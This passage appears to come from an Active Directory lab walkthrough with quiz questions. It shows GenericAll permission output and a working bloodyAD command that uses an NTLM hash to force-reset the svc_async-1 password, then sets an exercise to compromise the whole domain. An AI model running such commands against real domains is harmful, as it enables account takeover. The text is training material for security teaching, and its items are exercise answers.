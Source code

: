 **Q19**: `Austin_BROOKS` has the `GenericAll` permission on which user? (omit the suffix number)

### 5.1. GenericAll

```
distinguishedName: CN=svc_async-1,CN=Users,DC=async,DC=local
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE
```

As `Austin_BROOKS` has the ability to write and modify all properties of `svc_async-X`, they can simply modify the password of the account. This is a primtive known as "ForceChangePassword".

```
bloodyAD --host 'dc.async.local' -u 'Austin_BROOKS' -p ':3a7b6510f7ba73bf0171dd258a01234d' set password svc_async-1 'P@ssw0rd'
[+] Password changed successfully!
```

There is another way to compromise `svc_async-1` with these primitives, without forcibly changing their password. This is done using Active Directory Certificate Services (ADCS) via the Shadow Credentials attribute, this is an extra-mile - EM5.

## Exercise 6: Domain Dominance

Using `svc_async-1`, they can perform an attack that allows for the compromise of the entire domain. Enumerate it, and perform the attack to compromise the domain.

**Q20**: What is the NTLM hash of the `Admin` user?


[fs.async.local]: PS C:\Users\Tyler_ROSE\Documents> whoami